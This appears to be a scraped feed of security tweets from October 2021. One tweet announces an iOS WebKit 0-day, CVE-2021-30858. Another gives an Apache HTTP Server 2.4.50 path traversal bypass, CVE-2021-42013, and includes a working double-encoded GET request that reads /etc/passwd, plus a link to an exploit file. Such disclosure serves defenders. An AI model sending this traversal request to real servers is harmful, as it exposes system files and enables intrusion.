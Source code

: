 * https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---

# ZecOps
**https://twitter.com/ZecOps/status/1448527474065752070 _at 2021-10-14 05:53:56_**
<blockquote>
[BREAKING] CVE-2021-30858 iOS WebKit RCE 0-day in the wild: https://t.co/3zGZtPbMte including POC. Can be chained with CVE-2021-30883 and used in 1-clicks and water-holing attacks against iOS users.

Update to the latest version as soon as possible.
</blockquote>

* https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>194</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1448519884808146944 _at 2021-10-14 05:23:47_**
<blockquote>
[Apache] HTTP Server cgi-bin Path Traversal and RCE (CVE-2021-42013)

This exploit can bypass for Apache HTTP Server 2.4.50 (CVE-2021-41773 Patch Version)

GET /cgi-bin/%%32%65%%32%65/.../%%32%65%%32%65/etc/passwd HTTP/1.1

https://t.co/J3VlUh5pw4 https://t.co/0eLtCyuAa9
</blockquote>

* https://dl.packetstormsecurity.net/2110-exploits/apache2450-traversalexec.txt

<table><tr>